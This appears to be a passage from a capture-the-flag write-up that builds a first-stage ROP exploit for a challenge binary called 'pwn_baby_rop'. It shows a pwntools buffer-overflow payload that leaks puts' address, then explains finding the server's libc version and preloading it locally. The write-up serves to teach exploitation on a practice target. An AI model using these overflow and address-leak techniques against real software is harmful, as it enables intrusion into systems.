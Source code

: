 The main function is located at 0x40145C. The binary is stripped, so I had to open IDA in order to find it. If the binary was not stripped, 'objdump -S pwn_baby_rop \| grep main' whould have been sufficient to find the function's address. The 1st stage exploit code looks like this:

{% highlight python %}
# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))
{% endhighlight %}

## Finding the Server's LIBC Version

There's a >99% chance that the server is using another version of LIBC than my computer is. As I mentioned in the last article, this version can be found by running the 1st stage on the remote machine and searching the last 3 nibbles of puts' address(in this case, 5a0) on [this site](https://libc.nullbyte.cat/?q=_IO_puts%3A5a0). After downloading the .so file, we can tell the program to load it instead of our system's by changing

{% highlight python %}
io = process("./pwn_baby_rop")
{% endhighlight %}

to

{% highlight bash %}
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
io = process("./pwn_baby_rop", env=env)
{% endhighlight %}

To test wether this worked or not, I ran the script again:

{% highlight auto %}
$ python libc.py 
[+] Starting program './pwn_baby_rop': Done
puts:  0x7f4ea0c875a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ 
[*] Interrupted
[*] Stopped program './pwn_baby_rop'
{% endhighlight %}
